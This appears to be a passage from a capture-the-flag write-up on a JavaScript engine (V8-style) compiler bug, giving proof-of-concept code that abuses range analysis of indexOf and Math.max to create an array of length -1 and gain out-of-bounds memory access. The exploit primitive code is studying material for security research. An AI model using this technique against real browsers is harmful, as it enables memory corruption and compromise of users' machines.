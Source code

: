 ## POC
First our goal is to gain oob access.
So here is my thought process:
```js
function oob_read_opt(c) {
  const s = "AAAAA";
  let bad = s.indexOf(c);
  //Actual = -1, Range = [0, 536870888]
  bad >>= 30;
  //-1, [0, 0]
  bad *= 5;
  //-5, [0, 0]
  bad = bad + 4;
  //-1, [4, 4]
  //return bad;	--> oob_read_opt("B") returns -1
  var dummy = [1.1, 2.2, 3.3, 4.4, 5.5];
  return dummy[bad]; // oob_read_opt("B") returns undefined bcz even after optimization has been done, still bounds check isn't eliminated
}
```
Hmmm... So how do we tackle this problem. Then few articles were read and I came across [this blog](https://googleprojectzero.blogspot.com/2021/01/in-wild-series-chrome-infinity-bug.html) by Google Project Zero. This blog discusses similar exploitation technique and expalins in depth about whats going on. And this along with some painful debugging :') led to the following POC. This was the most and only? difficult part of the challenge.
```js
function oob_read_opt(c) {
  const s = "AAAAA";
  let bad = s.indexOf(c);
  //Actual = -1, Range = [0, 536870888]
  bad = Math.max(bad, 536870880);
  //-1, [536870880, 536870888]
  bad = bad - 536870880;
  //-536870881, [0, 8]
  bad >>= 30;
  //-1, [0, 0]
  bad *= 5;
  //-5, [0, 0]
  bad = bad + 4;
  //-1, [4, 4]
  //return bad;
  let evil = new Array(bad);
  evil[0] = 13.37;
  let obj_arr = [evil, 13.37];
  let poor = [1.1, 2.2];
  
  return [evil, poor, obj_arr];
}
```
What this does is create an array `evil` with `evil.length = -1`. 
A  brief explanation about how this works is first we have to make type reducer to convert the type representation to int32_t which is less than 32. Because when the argument to `Array()` is known to be a contant integer less than 16, then the array creation process is inlines by the compiler. You can again refer the Project Zero blog mentioned above to understand how this can be achieved. Now since the evil.length is -1, and bounds check operations are performed as unsigned integers, we can get past the bounds check and access data well beyond the array. And finally implementing the oob_access primitives.
